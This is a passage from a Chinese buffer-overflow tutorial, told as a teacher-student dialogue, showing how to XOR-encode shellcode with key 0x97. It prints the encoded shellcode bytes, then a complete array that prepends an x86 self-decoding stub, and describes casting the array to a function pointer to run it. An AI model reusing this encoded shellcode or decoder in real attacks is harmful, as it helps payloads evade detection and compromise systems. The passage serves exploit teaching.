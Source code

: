 “我们先对 ShellCode 进行编码，异或 0x97，程序为 xorCMD.cpp（光盘有收录）。xorCMD.cpp 还会自动生成规则格式，执行效果如图 5－7。

![](img/Q 版缓冲区溢出教程 154774.jpg)

“把屏幕上打印出的代码粘贴下来，得到编码后的 enShellCode，如下：”

```
enShellCode[] = 
    "\xc2\x1c\x7b\xa4\x57\xc7\xc7\xc7\x51\xd2"
    "\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xc1"
    "\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51\xd2"
    "\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c\xd3"
    "\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d\xf3"
    "\x8\x71\xe0\xc5\x1a\xd2\x63\xc7\x68\xc2"
    "\x67\xc2\x1c\x7b\x14\x7b\xbb\x2f\xf4\xf8"
    "\xfa\xfa\x1e\xd2\x63\x2f\xf6\xf9\xf3\xb9"
    "\x1e\xd2\x6f\x2f\xf4\xf8\xfa\xb5\x1e\xd2"
    "\x6b\xa4\x45\x1f\xc2\x68\x1a\xd2\x63\xc7"
    "\x2f\x54\x38\x96\xef\x68\x47" 
```

“再把我提取出的 decode 放在前面就 ok 了！”古风说道。

“好，我们把它合起来就是这样的：”

```
AllShellCode[] = 
    //先是 decode
    "\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x00\x02"　　
    "\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB\xFF\xFF\xFF"
    //后面跟 enShellCode
    "\xc2\x1c\x7b\xa4\x57\xc7\xc7\xc7\x51\xd2"
    "\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xc1"
    "\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51\xd2"
    "\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c\xd3"
    "\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d\xf3"
    "\x8\x71\xe0\xc5\x1a\xd2\x63\xc7\x68\xc2"
    "\x67\xc2\x1c\x7b\x14\x7b\xbb\x2f\xf4\xf8"
    "\xfa\xfa\x1e\xd2\x63\x2f\xf6\xf9\xf3\xb9"
    "\x1e\xd2\x6f\x2f\xf4\xf8\xfa\xb5\x1e\xd2"
    "\x6b\xa4\x45\x1f\xc2\x68\x1a\xd2\x63\xc7"
    "\x2f\x54\x38\x96\xef\x68\x47" 
```

“好，我们来验证一下 ShellCode 的功能吧！”老师说。

“好的，我来！”古风生怕别人抢了他的功劳，边组合边说，“用前面教过的验证方法把上面那个数组用((void(*)(void)&AllShellCode))强行转换为函数来调用，这样就得到了 xorAll.cpp（光盘有收录）

“执行看看呢？”老师说道。

“好哩！编译、执行，如图 5－8。”

![](img/Q 版缓冲区溢出教程 156135.jpg)

“哈哈，成功了！”古风得意的说。
